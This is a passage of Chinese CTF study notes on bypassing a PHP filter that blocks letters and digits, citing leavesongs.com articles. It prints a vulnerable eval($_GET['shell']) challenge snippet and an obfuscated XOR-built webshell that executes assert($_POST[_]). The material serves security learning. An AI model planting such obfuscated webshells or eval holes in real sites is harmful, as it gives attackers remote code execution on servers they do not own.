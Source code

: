 ![](images/ctf-2021-06-19-13-51-37.png)

其中第2种在php7种不可以使用，在php5中可以使用

（2）绕过`[a-zA-Z0-9]`

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

如何编写一个不使用数字和字母的webshell

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

方法一:这是最简单、最容易想到的方法。在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

得到如下的结果（因为其中存在很多不可打印字符，所以我用url编码表示了）：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
